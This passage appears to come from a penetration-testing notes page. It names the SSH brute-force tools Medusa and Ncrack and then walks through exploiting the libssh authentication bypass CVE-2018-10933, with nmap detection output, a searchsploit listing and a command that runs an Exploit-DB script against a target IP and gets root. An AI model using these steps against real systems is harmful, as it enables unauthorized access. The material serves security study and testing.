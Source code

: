 ### Medusa

GitHub：https://github.com/jmk-foofus/medusa
 
### Ncrack

WebSite:http://ncrack.org 

## 2.漏洞利用

### CVE-2018-10933 

CVE-2018-10933 is the reference for a vulnerability impacting libssh library. This vulnerability allows unauthorized access by bypassing the authentication.

libssh versions 0.6 and above have an authentication bypass vulnerability in the server code. By presenting the server an SSH2_MSG_USERAUTH_SUCCESS message in place of the SSH2_MSG_USERAUTH_REQUEST message which the server would expect to initiate authentication, the attacker could successfully authentciate without any credentials. [Advisory](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)

When you find a vulnerable version with nmap you should see something like that:

```
22/tcp  open     ssh      libssh 0.8.3 (protocol 2.0)
```

searchsploit (the tool used to locally browse the Exploit-DB) shows the existing exploits available for libssh.

```
searchsploit libssh
-------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                              |  Path
                                                                                            | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------- ----------------------------------------
LibSSH 0.7.6 / 0.8.4 - Unauthorized Access                                                  | exploits/linux/remote/46307.py
libSSH - Authentication Bypass                                                              | exploits/linux/remote/45638.py
-------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

So we can use the exploit to execute a command on the target in order to confirm it is working.

```
$ python /usr/share/exploitdb/exploits/linux/remote/46307.py 192.168.1.94 22 id
uid=0(root) gid=0(root) groups=0(root)
```
